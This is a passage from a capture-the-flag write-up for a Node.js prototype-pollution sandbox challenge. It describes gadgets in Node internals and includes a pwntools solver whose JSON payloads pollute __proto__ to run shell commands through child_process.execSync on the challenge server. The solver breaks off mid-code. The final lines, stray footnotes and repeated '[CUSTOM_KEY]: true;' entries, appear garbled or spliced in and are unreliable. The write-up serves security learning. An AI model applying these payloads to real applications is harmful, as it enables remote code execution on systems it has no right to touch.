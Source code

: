 The for-loop does not use Iterator[^node-ppjail-01], so it is impossible to call `IteratorClose` and you cannot use the gadget used in deno-ppjail.

[^node-ppjail-01]: That's because the default value for `target` option of `tsc` is ES3. ES3 is a very old ECMAScript version. ref: https://www.typescriptlang.org/tsconfig/#target

It means that you need to find a gadget other than `IteratorClose`. But not to worry, Node.js has some gadgets. In fact, I found three gadgets in the internals of Node.js.

For example:
```javascript
({}).__proto__[1] = { callback: () => console.log(1337) }
```

The callback will be called in the process for task queues.

See my solver below for details.

### Solver

```python
import os
import pwn
import json

io = pwn.remote(os.getenv("SECCON_HOST"), os.getenv("SECCON_PORT"))

command = "cat /flag-*.txt"


def solve1() -> str:
    # Solution 1:
    return json.dumps({
        "__proto__": {
            # ref. https://github.com/nodejs/node/blob/v20.6.0/lib/internal/fixed_queue.js#L81
            # ref. https://github.com/nodejs/node/blob/v20.6.0/lib/internal/process/task_queues.js#L77
            "1": {
                "callback": {
                    "__custom__": True,
                    "type": "Function",
                    "args": [
                        f"console.log(global.process.mainModule.require('child_process').execSync('{command}').toString())"
                    ],
                },
            },
        },
    })


def solve2() -> str:
    # Solution 2:
    return json.dumps({
        "__proto__": {
            # ref. https://github.com/nodejs/node/blob/v20.6.0/lib/internal/util/inspect.js#L1064
            "circular": {
                "get": {
                    "__custom__": True,
                    "type": "Function",
                    "args": [
                        f"console.log(global.process.mainModule.require('child_process').execSync('{command}').toString())"
                    ],
                },
            },
            # ref. https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Error/cause
            "cause": 1,
```

[^hidden-note-01]: https://arxiv.org/pdf/2106.05123.pdf
[^hidden-note-02]: Strictly speaking, there are more conditions for the shuffle.
  [CUSTOM_KEY]: true;
  [CUSTOM_KEY]: true;